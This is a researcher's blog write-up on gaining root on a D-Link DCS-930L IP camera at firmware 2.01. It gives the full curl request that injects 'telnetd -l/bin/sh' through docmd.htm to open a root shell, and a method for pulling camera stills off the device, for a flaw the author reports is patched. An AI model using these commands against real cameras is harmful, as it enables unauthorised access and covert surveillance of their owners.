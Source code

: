 # DLink DCS 930L

In late 2015, I decided to start researching IP Cameras.  I decided to try out the cheapest models available on Amazon.com, both because I thought those models would be more “fruitful” and because I was trying to do this research on a budget.  It turns out that the security on these lower model IP Cameras is really bad.

I looked at five different IP Cameras and was able to gain root access on four of them within a few hours of starting to poke at them.  All of the cameras I looked at cost between $30-$70, and can be purchased directly from Amazon.com.

My goals in completing this research were two-fold:
1. Gain root access on the camera
2. Find a way to exfiltrate camera stills or video off the camera

On all four of the cameras I rooted, I was able to exfiltrate image data off of the device.

Today we’re going to look at one of the models I was able to gain root access on.  I chose this model because a subsequent patch fixed the vulnerability that allowed me to gain root access.

I started by running nmap to check the available ports.  Nothing too interesting there.

```
 Nmap scan report for 192.168.1.13
 Host is up (0.0026s latency).
 Not shown: 65532 closed ports
 PORT     STATE SERVICE
 80/tcp   open  http
 443/tcp  open  https
 8750/tcp open  unknown
 ```

This camera has pretty extensive web administration capabilities, including the ability to upload vendor supplied patches to update the device.  However, the version we will be looking at today is the version that comes installed on the device when you open the box: version 2.01.  The default credentials, which come printed in the documentation with the device, are `admin:admin`. The vulnerability I exploit below is patched in version 2.12 and above, which is available from the DLink website. 

My first try involved checking the various HTML inputs.  This turned up a couple of not very interesting cross site scripting vulnerabilities that would be hard to exploit in the wild.

## Wfuzz

My second try began with running wfuzz with the `directory-list-2.3-medium.txt` word list that comes with every default Kali Linux installation.  For those of you not familiar with wfuzz, it is a tool like dirbuster that facilitates directory enumeration on web servers that do not allow directory indexing.  Running wfuzz turned up a lot of html documents that I was already aware of, plus a few more that seemed useless - and then one that turned out to be the beginning of the jackpot: html.htm.

## Html.htm

Load html.htm in a browser and the HTML document will contain a list of all the webpages available in the web root.  It is more or less a directory index listing.  I navigated through each one of the pages until I found the next stage of the jackpot: docmd.htm!

## Docmd.htm and Telnet Injection

Docmd.htm contains a text box and a submit button.  This form allows direct command execution on the device.  So what’s the next logical step?

`telnetd -l/bin/sh`

A curl command capable of accomplishing this would look like:

`curl 'http://$CAMERA_IP/setSystemCommand' -H 'Authorization: Basic $BASICAUTH_CREDS' -H 'Content-Type: application/x-www-form-urlencoded' --data 'ReplySuccessPage=docmd.htm&ReplyErrorPage=docmd.htm&SystemCommand=telnetd&ConfigSystemCommand=Save'`

Fire up telnet or netcat and connect to port 23 of the camera.  Root shell accomplished!

## Image Exfiltration

While the root shell was not too difficult to load up, it took significantly longer to figure out how to capture image data.  I started by documenting all the binaries available in the PATH and elsewhere on the filesystem, and then working my way through each to see what they did:

```bash
 # ls /bin
 chmod          htmlunpack     sounddb        imagetp        ated           umount         ps             swing
 busybox        nvram_daemon   mknod          mail           kill           uvc_stream     rm             alphapd
 nvram_set      ash            openssl        ping           ralink_init    msmtp          i2c            gpio
 ls             pcmcmd         echo           notifystream   switch         mDNSResponder  lanconfig
 touch          sed            pppoecd        reg            audiopush      cp             mkdir
 upgradefw      mount          login          lld2d          iperf          mydlinkevent   ipush
 ntpclient      iwpriv         sleep          pwd            sh             nvram_get      cat
 grep           inadyn         date           schedule       mii_mgr        mtd_write      ov7740
 # ls /sbin
 automount_boot.sh    config-udhcpd.sh     udhcpc               reboot               udev                 config-igmpproxy.sh
 snort.sh             zcip                 cpubusy.sh           ucp                  wlan.sh              pppoe.sh
 ddns.sh              udhcpc.sh            acodec               route                poweroff
 internet.sh          ntp.sh               vpn-passthru.sh      web.sh               snmp.sh
 video.sh             config-dns.sh        config-pppoe.sh      arp                  dhcp.sh
 config-iTunes.sh     chpasswd.sh          halt                 ifconfig             automount.sh
 zcip.sh              init                 lan.sh               mdev                 cameraname.sh
 # ls /usr/bin
 killall      free         expr         test         ftpd         arping       printf
 [            [[           uptime       ftpputimage  top          tr
 # ls /usr/sbin
 chpasswd  inetd     brctl     telnetd
```

I eventually came across the `mail` command, which allowed me to write a `mail` message to `/tmp/mail.txt`.  Inside that file is the base64 encoded image data from the moment the “mail” command was run. Copy that data into a tmux buffer, write it to your local filesystem and base64 decode that raw data for an image file!

I also created a Metasploit module for this vulnerability: [https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution](https://www.rapid7.com/db/modules/exploit/linux/http/dlink_dcs_930l_authenticated_remote_command_execution)

[Back](https://nstarke.github.io/)